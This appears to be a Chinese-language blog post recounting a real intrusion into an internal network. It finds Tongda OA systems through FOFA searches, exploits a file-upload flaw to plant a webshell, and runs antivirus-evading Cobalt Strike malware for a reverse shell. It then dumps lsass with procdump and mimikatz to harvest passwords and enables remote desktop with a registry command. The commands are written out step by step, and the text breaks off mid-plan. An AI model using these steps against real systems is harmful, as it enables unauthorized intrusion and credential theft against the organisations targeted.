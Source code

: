 ﻿---
layout: post
title: 内网：记一次内网渗透
date: 2019-10-06
categories: blog
tags: [内网，mimikatz，procdump]
description: 内网渗透
---

#### 一、获取目标
- fofa搜索`title="网络智能管理系统"`，`app="通达OA"`
- 通过通达oa文件上传漏洞获取webshell
#### 二、操作
- 蚁剑管上

- 上传veil CS免杀的远控exe，命令行执行，反弹成功
![](https://upload-images.jianshu.io/upload_images/15634342-eb3d43d8f0e55b88.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 直接CS run mimikatz，获取用户名密码

- 或者上传Procdump.exe
`procdump64.exe -accepteula -ma lsass.exe lsass.dmp`
- 将lsass.dmp下载到本地执行
`mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit`
- 解出密码
链接：https://pan.baidu.com/s/1gNc9qLcNSNBohIVrAiqShw 密码：fc38

- 该机器直接就是system权限，然而该机器有数字套餐，命令行开启3389失败
执行开启3389端口`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`
- 执行关闭3389端口`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 11111111 /f`

- 思路：上传teamviewer一键安装版，上传读取tv密码的脚本，读取密码。用tv连












